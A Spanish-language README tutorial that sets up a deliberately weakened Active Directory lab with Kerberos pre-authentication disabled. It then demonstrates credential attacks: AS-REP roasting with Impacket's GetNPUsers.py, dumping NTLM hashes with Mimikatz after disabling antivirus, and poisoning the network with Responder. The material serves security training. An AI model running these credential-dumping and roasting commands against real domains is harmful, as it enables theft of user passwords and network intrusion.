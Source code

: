 # Creando usuarios en un AD

Dentro de nuestro windows server, abrimos el ```Administrador del servidor```

![164f8a322375511e30dd98be6148ba65](https://user-images.githubusercontent.com/107114264/173865506-253fa80c-7085-407d-95f9-fc7bec1a4331.png)

Nos iremos a ```Herramientas``` y dentro de este apartado a: ```Usuarios y equipos de Active Directory```

![c889c234d935335386dbb9034fdb994e](https://user-images.githubusercontent.com/107114264/173865671-7cfe710c-869a-4457-8454-b997e67abe0a.png)

Tendremos que entrar al apartado ```Users``` y aquí procederemos a cear dos nuevos usuarios.

![ca84bfd054b25c3f7a9a5a951dc731e8](https://user-images.githubusercontent.com/107114264/173866130-f4ae7275-9114-4995-83d4-374002d459c3.png)

Usando el click derecho, podemos darle a nuevo, aquí dentro elegir ```Usuario```

![735cac690af40985df1b5bab6b9df69c](https://user-images.githubusercontent.com/107114264/173866439-87225932-02f4-44a2-9e6e-fdcc19fb1079.png)

Crearemos dos usuarios con el nombre que eligáis, recomendando que eligáis el apartado de que la contraseña nunca expira.

![33aa2104fc562c71a92830af80e932b1](https://user-images.githubusercontent.com/107114264/173866862-f2ad5b13-1100-4bbc-b6b7-5e63c132a91a.png)

Eligiendo sólo un usuario para ver la comparativa, le daremos doble click, y entramos a ```Cuenta```

En ```Opciones de cuenta``` bajamos hasta ver:

![df10a2403747579f7748ea7e745d03a5](https://user-images.githubusercontent.com/107114264/173868081-46936027-e970-4714-93d0-c80f366984a4.png)

Seleccionamos la última opción, llamada ```No pedir la autentificación Kerberos previa```

Ya tenemos todo listo para hacer diferentes ataques a un AD.

# Obteniendo y atacando con Impacket

En una máquina virual Linux, haremos un ```sudo git clone https://github.com/SecureAuthCorp/impacket.git``` en ```/opt```

Nos dirigimos a la carpeta ```examples``` y ahí tendremos el primer programa ```GetNPUsers.py```

Este programa nos servirá para ver si en el dominio hay algún usuario sin autorización de kerberos previa, tal y cómo hemos creado antes.

```sudo python3 GetNPUsers.py -dc-ip SERVER_IP -usersfile USERS_FILE -no-pass DOMAIN_NAME/```

Con este comando, tendréis que poner la ip del servidor AD, una lista con los nombres de usuario, y el nombre del dominio.

![a5298cc5e39f8cdc2e287e3da168f796](https://user-images.githubusercontent.com/107114264/174579092-9b5250ee-4c0c-47b2-a086-9e02d1d99d82.png)

El ticket que nos da es un TGT(Ticket Granting Ticket), este ticket se puede desencriptar de muchas maneras, una de ellas es hashcat.

# Obteniendo y atacando con Mimikatz

Antes de descargarlo, desactivar vuestro antivirus para que no os borre ningún fichero.

Descargamos en una máquina windows del servidor de AD, mimikatz desde ```https://github.com/ParrotSec/mimikatz```

En mi caso ejecutaré el de 64 bits en ```x64``` 

!!!!Debéis ejecutarlo como administrador¡¡¡¡

```
privilege::debug
sekurlsa::logonpasswords
```

Ejecutando esos dos comandos en ese orden debería sacar NTLMs de todos los usuarios del AD.

![62ff019ce7327c7de20e15ba16c11fd2](https://user-images.githubusercontent.com/107114264/174583072-776fc303-36b0-408e-823b-e40ba49ecb5b.png)

Con esto podéis desencriptarlo y obtener las claves de acceso.

# Obteniendo y atacando con Responder

Lo descargaremos en una linux en ```/opt``` con ```sudo git clone https://github.com/SpiderLabs/Responder.git```

Ejecutaremos nuestro responder ```sudo python2.7 Responder.py -I eth0```
